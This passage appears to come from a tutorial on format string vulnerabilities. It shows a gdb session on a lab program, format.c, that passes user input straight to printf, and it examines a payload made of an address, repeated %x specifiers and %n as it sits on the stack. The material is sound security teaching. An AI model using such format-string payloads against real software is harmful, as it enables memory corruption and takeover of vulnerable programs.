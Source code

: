 ...
End of assembler <span class="hljs-keyword">dump</span>.
(gdb) b <span class="hljs-variable">*0x08048707</span>
Breakpoint <span class="hljs-number">2</span> at <span class="hljs-number">0x8048707</span>: file <span class="hljs-keyword">format</span>.c, line <span class="hljs-number">25</span>.
(gdb) cont
Continuing.
Hi! Welcome to the HALL-E function.

Breakpoint <span class="hljs-number">2</span>, <span class="hljs-number">0x08048707</span> in hall_e (
    fmt=<span class="hljs-number">0xffffdc42</span> <span class="hljs-string">"4\332\377\377<span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%%</span>n"</span>)
    at <span class="hljs-keyword">format</span>.c:<span class="hljs-number">25</span>
<span class="hljs-number">25</span>              <span class="hljs-keyword">printf</span> (buf);
(gdb) <span class="hljs-keyword">x</span>/<span class="hljs-number">32</span><span class="hljs-keyword">x</span> <span class="hljs-variable">$esp</span>
<span class="hljs-number">0xffffd944</span>:     <span class="hljs-number">0xffffd95e</span>      <span class="hljs-number">0xffffd95e</span>      <span class="hljs-number">0x000000c9</span>      <span class="hljs-number">0x080487aa</span>
<span class="hljs-number">0xffffd954</span>:     <span class="hljs-number">0xffffdc42</span>      <span class="hljs-number">0x080487fc</span>      <span class="hljs-number">0x6f590000</span>      <span class="hljs-number">0x61732075</span>
<span class="hljs-number">0xffffd964</span>:     <span class="hljs-number">0x203a6469</span>      <span class="hljs-number">0x20202020</span>      <span class="hljs-number">0xffda3420</span>      <span class="hljs-number">0x257825ff</span>
<span class="hljs-number">0xffffd974</span>:     <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>
<span class="hljs-number">0xffffd984</span>:     <span class="hljs-number">0x35343331</span>      <span class="hljs-number">0x33323431</span>      <span class="hljs-number">0x6e257834</span>      <span class="hljs-number">0x0000000a</span>
<span class="hljs-number">0xffffd994</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd9a4</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd9b4</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
</code></pre>

<p>You see what I was talking about now? May be it’s still not intuitive, let’s examine what are those stuff on stack.</p>

<pre class="prettyprint"><code class="language-gdb hljs perl">(gdb) <span class="hljs-keyword">x</span>/<span class="hljs-keyword">s</span> <span class="hljs-number">0xffffd95e</span>
<span class="hljs-number">0xffffd95e</span>:     <span class="hljs-string">"You said:    4\332\377\377<span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%%</span>n\n"</span></code></pre>
